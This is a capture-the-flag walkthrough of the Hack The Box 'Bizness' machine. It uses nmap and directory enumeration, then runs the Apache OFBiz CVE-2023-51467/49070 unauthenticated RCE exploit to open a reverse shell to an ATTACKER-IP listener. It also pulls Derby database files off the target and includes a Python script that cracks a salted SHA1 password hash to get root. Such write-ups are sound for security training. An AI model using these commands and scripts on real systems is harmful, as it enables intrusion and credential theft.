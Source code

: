 # **Bizness | HTB**

***
## **Difficulty = Easy**


![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/db5be50c-eaa2-44a8-9160-d1e32ab85367)

***

Running our nmap scan we have -:


```bash
# Nmap 7.94SVN scan initiated Sat Feb  3 22:30:51 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 10.10.11.252
Increasing send delay for 10.10.11.252 from 0 to 5 due to 127 out of 317 dropped probes since last increase.
Increasing send delay for 10.10.11.252 from 5 to 10 due to 103 out of 257 dropped probes since last increase.
Warning: 10.10.11.252 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.252
Host is up (0.17s latency).
Not shown: 59091 closed tcp ports (conn-refused), 6440 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
| http-methods: 
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://bizness.htb/
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-14T20:03:40
| Not valid after:  2328-11-10T20:03:40
| MD5:   b182:2fdb:92b0:2036:6b98:8850:b66e:da27
|_SHA-1: 8138:8595:4343:f40f:937b:cc82:23af:9052:3f5d:eb50
|_http-server-header: nginx/1.18.0
| tls-alpn: 
|_  http/1.1
38857/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  3 22:33:52 2024 -- 1 IP address (1 host up) scanned in 181.03 seconds
```





 Navigating to port 443 we have a https://bizness.htb website, in which we can go ahead and add to our `/etc/hosts` folder


![](https://i.imgur.com/Qi6A6ah.png)

 Nothing seems to show up in source code analysis but running directory bruteforce we have a login panel URL


![](https://i.imgur.com/Bt3tdqI.png)



Navigating to the URL we truly have a login panel, in which we don't have any usernames nor passwords yet



![](https://i.imgur.com/lLrGX8D.png)



Source Code analysis shows the version of the technology and it name called "**Apache OFBiz**"(18.12)



![](https://i.imgur.com/KOrYvD8.png)


Made more enumeration and found an exploit to ofbiz unauthenticated RCE -:


[CVE-2023-51467 and CVE-2023-49070 POC](https://github.com/UserConnecting/Exploit-CVE-2023-49070-and-CVE-2023-51467-Apache-OFBiz)


> An unauthenticated attacker can use this vulnerability to successfully take over Apache OFBiz.


To exploit this, first of all download this `.jar` file with the following command


```bash
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

Then start up your listener on port 1337 with netcat and run the exploit as follows


```bash
# Start listener
nc -lvnp 1337

# Launch exploit
python3 exploit.py https://bizness.htb shell ATTACKER-IP:1337
```



![](https://i.imgur.com/rFBUU1I.png)


Running `linpeas.sh` i was able to gather few important directories

```
1. /var/lib/apt/
2. /opt/ofbiz/.github/workflows/
3. /opt/ofbiz/runtime/data/derby/ofbiz/log/           
4. /opt/ofbiz/runtime/logs/
```


The directory with the listing of `3.` (derby) had important `.DAT` files go ahead and download them Recursively with `python` and `wget`



```bash
# Target machine
python3 -m http.server 1337

# Attacker machine
wget -r 10.10.11.252:1337/
```


After some few enumeration on this files, i found out that where some hashes stored in most of the files


![](https://i.imgur.com/Zk3ySX1.png)


```
strings *.dat | grep SHA
```


Cracking this hash with `hashcat` or `JRP` does not even work, asked for few hints and was told that the hash was hashed with this java [Function](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java)
Then i Holla a friend since i ain't pretty good at `python` and then they made this up for me using the hashlib, base64 and os library to decrypt this hash 




```python
import hashlib  
import base64  
import os  
def cryptBytes(hash_type, salt, value):  
    if not hash_type:  
        hash_type = "SHA"  
    if not salt:  
        salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')  
    hash_obj = hashlib.new(hash_type)  
    hash_obj.update(salt.encode('utf-8'))  
    hash_obj.update(value)  
    hashed_bytes = hash_obj.digest()  
    result = f"${hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"  
    return result  
def getCryptedBytes(hash_type, salt, value):  
    try:  
        hash_obj = hashlib.new(hash_type)  
        hash_obj.update(salt.encode('utf-8'))  
        hash_obj.update(value)  
        hashed_bytes = hash_obj.digest()  
        return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')  
    except hashlib.NoSuchAlgorithmException as e:  
        raise Exception(f"Error while computing hash of type {hash_type}: {e}")  
hash_type = "SHA1"  
salt = "d"  
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="  
wordlist = '/usr/share/wordlists/rockyou.txt'  
with open(wordlist,'r',encoding='latin-1') as password_list:  
    for password in password_list:  
        value = password.strip()  
        hashed_password = cryptBytes(hash_type, salt, value.encode('utf-8'))  
        # print(hashed_password)  
        if hashed_password == search:  
            print(f'Found Password:{value}, hash:{hashed_password}')
```


![](https://i.imgur.com/AemGRaE.png)


Funny enough this password gave us access as user root


![](https://i.imgur.com/i30RpVU.png)




**_Things i Would take good note of_ -:**


- Get much better at python
- Patience is key, wouldn't have found those hashes if i wasn't careful with my `linpeas` result and wasn't also looking out for it in the main logs folder



GG

![](https://i.pinimg.com/originals/bb/83/ac/bb83ac696e85c4710a5b89c6d6eeac81.gif)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

